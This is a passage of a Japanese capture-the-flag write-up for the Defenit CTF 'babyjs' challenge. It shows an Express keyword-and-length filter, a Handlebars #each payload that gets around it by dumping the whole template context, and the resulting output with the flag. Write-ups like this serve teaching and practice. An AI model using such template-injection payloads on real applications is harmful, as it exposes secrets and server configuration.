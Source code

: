 ただ、単純に`{{FLAG}}`と書かれたviewを投稿しようとすると、以下のミドルウェア内の①とコメントを付けた箇所で阻まれます。
また、どうやら200文字以上の投稿も、同様に阻まれます。

```javascript
app.use((req, res, next) => {
    const { content } = req.body;

    req.userDir = crypto.createHash('md5').update(`${req.connection.remoteAddress}_${SALT}`).digest('hex');
    req.saveDir = path.join('views', 'temp', req.userDir);

    if (!fs.existsSync(req.saveDir)) {
        fs.mkdirSync(req.saveDir);
    }

    if (typeof content === 'string' && content.indexOf('FLAG') != -1 || typeof content === 'string' && content.length > 200) {  // ①
        res.end('Request blocked');
        return;
    }

    next();
});
```

`FLAG`という文字を含めない200文字以内のviewを投稿することを最終目標として設定して問題なさそうです。

### 解法

最終的には、[ここ](https://handlebarsjs.com/guide/builtin-helpers.html#each)を参考に、以下のペイロードを作りました。

```txt
{{#each this}}{{@key}} => {{this.toString}}<br>{{/each}}
```

実際に投稿してみると、以下のようにFlagが表示されました。

![問題のFlagが表示された画面](img/writeup-of-2020-defenit-ctf-english-ver/babyjs_got_the_flag.png?w=543&h=172)

#### 説明

thisの内容は、以下のようなオブジェクトです。
前述のペイロードは、このオブジェクトのキーとtoString(値)をHandlebarsのBuilt-in Helperである`#each`を使ってすべて出力させるものです。

```txt
{
    settings: {
        'x-powered-by': true,
        etag: 'weak',
        'etag fn': [Function: generateETag],
        env: 'development',
        'query parser': 'extended',
        'query parser fn': [Function: parseExtendedQueryString],
        'subdomain offset': 2,
        'trust proxy': false,
        'trust proxy fn': [Function: trustNone],
        view: [Function: View],
        views: '/app/views',
        'jsonp callback name': 'callback',
        'view engine': 'html'
    },
    FLAG: 'Defenit{w3bd4v_0v3r_h7tp_n71m_0v3r_Sm8}',
    apple: 'mint',
    _locals: [Object: null prototype] {},
    cache: false
}
```
